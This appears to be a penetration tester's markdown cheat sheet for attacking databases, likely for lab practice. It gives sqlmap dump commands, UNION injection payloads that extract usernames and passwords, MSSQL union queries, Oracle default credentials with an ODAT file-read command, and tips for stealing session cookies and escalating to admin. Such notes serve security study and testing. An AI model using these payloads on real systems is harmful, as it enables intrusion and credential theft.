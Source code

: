 # Databases (SQL / NoSQL)
## Tips
- If a database has a table of session one can try to steal cookies or other credentials from the table to authenticate as another user.     
- If one is in a database with write access and there are roles assigned to users, give the current user admin rights.

# SQL injection cheat sheets
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


# sqlmap
## GET
Discover vulnerabilities in databases as well as dump info
```sh
sqlmap.py -u <URL> --batch
```

### POST
Can use log of a POST request, to search and enumerate a database
```sh
sqlmap -r <request_file> --level 5 --risk 3 --batch --string "Wrong identification" --dump
```

### Request file
Use burp as that will give you the full request, however it can be done via chrome network tab with a bit of editing.     
If the latter is chosen please follow

**BASE**
```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en,en-US;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Host: target.com
Origin: http://target.com
Referer: http://target.com/login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
```

**EDITED**
```
POST /login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en,en-US;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Host: target.com
Origin: http://target.com
Referer: http://target.com/login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36

username=name&password=password
```

#### References
- [https://0xdf.gitlab.io/2018/06/23/htb-falafel.html](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html)

# SQL injection UNION attack

## Steps
```sql
"test' union select 'table',database(),'C'-- "
"test' union select 'table',username, password from db.table -- -"
```

## Articles to reproduce the attack
- [https://pentest-tools.com/blog/sql-injection-attacks](https://pentest-tools.com/blog/sql-injection-attacks)
- [https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635)
​​
​
## MSSQL union queries
Test the following query, it should dump all the data from the selected table.         
```sql
abcd' union select 1, concat(<data>,':',<data>) 3,4,5,6 from <table>;-- -
```      

*If the query needs to be edited, please follow the link in [the references](#references-1)* below.

### References
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)

# MySQL user defined functions
[​​https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf](​​https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

​
# Oracle / ODAT
Use [this](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) link as a reference for the steps described below    
[https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)    

## Basic creds 
``` 
Username --> Scott 
Password --> tiger
```

## Brute force SID
*Steps*    
1. Use: `odat` and its `sidguesser` to bruteforce with a link provided
2. Use metasploit and use `auxiliary(admin/oracle/sid_brute)`
3. Use `sqlplus` to login with the creds or
    1. Read file with odat as such:    `odat ctxsys -s 10.10.10.14 -d XE -U SCOTT -P tiger --sysdba --getFile flag.txt`


# NoSQL
NoSQL injection knowledge base
A well curated list of tools and injection methods to use on NoSQL databases by ​[swisskyrepo](https://github.com/swisskyrepo)
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

​
# NoSQLMap
[https://github.com/codingo/NoSQLMap](https://github.com/codingo/NoSQLMap)
​​